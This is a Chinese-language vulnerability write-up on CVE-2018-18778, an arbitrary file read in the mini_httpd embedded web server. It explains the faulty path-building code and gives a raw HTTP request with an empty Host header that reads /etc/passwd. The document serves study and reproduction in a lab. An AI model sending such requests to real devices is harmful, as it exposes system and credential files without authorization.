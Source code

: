 （CVE-2018-18778）Mini\_httpd 任意文件读取漏洞
==============================================

一、漏洞简介
------------

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

在mini\_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

    (void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );

见上述代码，分析如下：

-   当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
-   当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

二、漏洞影响
------------

三、复现过程
------------

发送请求是将Host置空，PATH的值是文件绝对路径：

    GET /etc/passwd HTTP/1.1
    Host: www.0-sec.org
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

成功读取文件：

![1.png](./resource/(CVE-2018-18778)Mini_httpd任意文件读取漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/mini\_httpd/CVE-2018-18778/
